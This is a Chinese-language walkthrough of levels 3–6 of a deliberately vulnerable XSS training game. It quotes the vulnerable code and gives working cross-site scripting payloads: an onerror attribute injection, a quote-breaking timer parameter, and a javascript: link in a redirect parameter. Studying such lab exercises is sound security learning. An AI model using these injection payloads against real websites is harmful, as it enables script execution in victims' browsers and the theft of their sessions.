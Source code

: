 代码审计发现

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```



```javascript
#' onerror="alert()" '#1
```

### level 4

关键代码

```python
self.render_template('timer.html', { 'timer' : timer })
```

测试发现过滤了,`(,"`无法闭合

于是构造

`https://xss-game.appspot.com/level4/frame?timer=1'%2balert()%2b'1`

### level 5

`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()`

关键代码:`<a href="{{ next }}">Next >></a>`



### level 6



关键代码:

```javascript
    function includeGadget(url) {
      var scriptEl = document.createElement('script');
 
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
 
      // Load this awesome gadget
      scriptEl.src = url;
 
      // Show log messages
      scriptEl.onload = function() { 
        setInnerText(document.getElementById("log"),  
          "Loaded gadget from " + url);
      }
      scriptEl.onerror = function() { 
        setInnerText(document.getElementById("log"),  
          "Couldn't load gadget from " + url);
      }
 
      document.head.appendChild(scriptEl);
    }
```
